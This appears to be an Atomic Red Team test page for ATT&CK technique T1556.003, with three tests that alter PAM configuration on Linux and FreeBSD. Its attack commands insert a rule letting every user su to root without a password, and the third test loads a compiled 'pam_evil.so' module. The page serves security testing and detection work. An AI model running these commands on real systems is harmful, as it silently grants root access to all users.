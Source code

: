 ```yaml
---
tags: [T1556_003, atomic_test]
filename: "[[T1556.003|T1556.003 - Modify Authentication Process: Pluggable Authentication Modules]]"
---
```

# T1556.003 - Modify Authentication Process: Pluggable Authentication Modules

## Atomic Test #1 - Malicious PAM rule
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 4b9dde80-ae22-44b1-a82a-644bf009eb9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 1|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #2 - Malicious PAM rule (freebsd)
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** b17eacac-282d-4ca8-a240-46602cf863e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 8|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "" "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "" "/#{pam_rule}/d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #3 - Malicious PAM module
Creates a PAM module, inserts a rule to use it, and then tests it.

Upon successful execution, this test will create a PAM module that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 65208808-3125-4a2e-8389-a0a00e9ab326





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient /tmp/pam_evil.so|
| index | Index where the rule is inserted. | integer | 1|
| path_to_pam_module_source | Path to PAM module source code. | path | PathToAtomicsFolder/T1556.003/src/pam_evil.c|
| path_to_pam_module | Path to PAM module object | path | /tmp/pam_evil.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```



#### Dependencies:  Run with `sh`!
##### Description: The PAM development library must be installed to build the PAM module
##### Check Prereq Commands:
```sh
if [ -f /usr/include/security/pam_modules.h ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ -n "`which apt-get`" ]; then sudo apt-get -y install libpam0g-dev; elif [ -n "`which yum`" ]; then sudo yum -y install pam-devel; fi
```
##### Description: The PAM module must exist on disk at specified location (#{path_to_pam_module})
##### Check Prereq Commands:
```sh
if [ -f #{path_to_pam_module} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
sudo gcc -shared -fPIC -o #{path_to_pam_module} #{path_to_pam_module_source}
```




<br/>
